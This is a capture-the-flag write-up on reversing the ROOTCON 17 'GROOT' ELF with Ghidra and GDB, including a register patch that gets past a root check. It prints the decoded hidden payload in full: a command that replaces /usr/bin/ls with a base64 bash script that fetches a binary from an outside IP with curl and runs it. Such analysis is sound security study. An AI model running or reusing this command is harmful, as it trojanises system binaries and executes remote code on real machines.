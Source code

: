 ```yaml
---
layout: page
title: GROOT
category: BinForCry
type: ctf_rootcon17quals
desc: BinForCry 100 pts
img-link: /writeups/ctf/rootcon17quals/images/groot_1.png
---
```



# [BinForCry] GROOT - 100 Pts.
<br />
We're given with this file.<br />
![lol it didn't load](images/groot_1.png)<br />
Checking out the file, it is an ELF file.

<br />

![lol it didn't load](images/groot_2.png)
<br />

We did the reverse engineering on [Remnux](https://remnux.org/).

<br />First off, we fired up Ghidra and decompile the ELF. After entering the main method, we noticed a function that's consistently called.

<br />![lol it didn't load](images/groot_3.png)

<br />Looking at the decompiled function, it seems to be doing an encryption machanism, albeit a basic one (just XOR). Also notice that the result is being stored on `param_3` which means the RDX value. Therefore, we have to note the address of RDX before and after the function has been called.

<br />![lol it didn't load](images/groot_4.png)

<br />We can open up GEF-GDB and set a break point each time the function is called and then analyze arguments and also the output once we step over the function.

<br />First, we have to get the main address after PIE is applied. In my environment, it is `0x5555555552dc`
<br />![lol it didn't load](images/groot_5.png)

<br />We can then show the instructions starting from the main address
<br />![lol it didn't load](images/groot_6.png)
<br />![lol it didn't load](images/groot_7.png)
<br />The list of breakpoints to use are:
- 0x555555555364
- 0x5555555553db
- 0x5555555554b7

<br />There are more addresses that call that function but these are the only ones that we need.
<br />Breaking at 0x555555555364, we mark the function arguments and we need to keep an eye on RDX register value from what we understod on the function. XOR result is being stored in there after we step over 1 instruction after the breakpoint. This will be done everytime we hit the breakpoint
<br />![lol it didn't load](images/groot_8.png)
<br />After stepping over, we got the first part of the flag `RC17{x0x0_`. Nice!
<br />![lol it didn't load](images/groot_9.png)
<br />Next important breakpoint is at 0x5555555553db. The resulting XOR operation is not interesting:
<br />![lol it didn't load](images/groot_10.png)
<br />But we want to set the `geteuid` result to 0 on the `test eax, eax` otherwise the process would have stopped. That means we have to set the RAX to 0.
<br />![lol it didn't load](images/groot_11.png)
<br />We go to breakpoint 0x5555555554b7 and we note the RDX address again (0x00007fffffffce40).
<br />![lol it didn't load](images/groot_12.png)
<br />After stepping over, we found an interesting decoded result:
<br />![lol it didn't load](images/groot_13.png)
<br />`cp /usr/bin/ls /usr/bin/lls && cp /bin/ls /bin/lls && echo -n IyEvYmluL2Jhc2gKCiMgcGFydCAyIC0geDByMW5nXzFzX2x5ZgooY3VybCAtcyBodHRwOi8vMTc4LjEyOC4yMy4xNDEvMGJlOTIxOTAvYWJjIC1vIC91c3IvYmluL3gwcjFuZ18xc19seWYgJiYgY2htb2QgK3ggL3Vzci9iaW4veDByMW5nXzFzX2x5ZiAmJiAvdXNyL2Jpbi94MHIxbmdfMXNfbHlmIDI+L2Rldi9udWxsKSAmCgovdXNyL2Jpbi9sbHMgJEAK | base64 -d > /usr/bin/ls && chmod +x /usr/bin/ls;`. The base64 blob is actually a bash script. It would have bricked your system if you executed this as root. And also, it contains the part 2 of the flag!
<br />![lol it didn't load](images/groot_14.png)
<br />The flag for now is `RC17{x0x0_x0r1ng_1s_lyf`.
<br />For the last part of the flag. we executed the whole thing as root anyway and we got this. (Of course we didn't forget to take a snapshot of the remnux VM) 
<br />![lol it didn't load](images/groot_15.png)
<br />The flag has been completed: `RC17{x0x0_X0r1ng_1s_lyf_thx4ex3cut1ngth1s}`




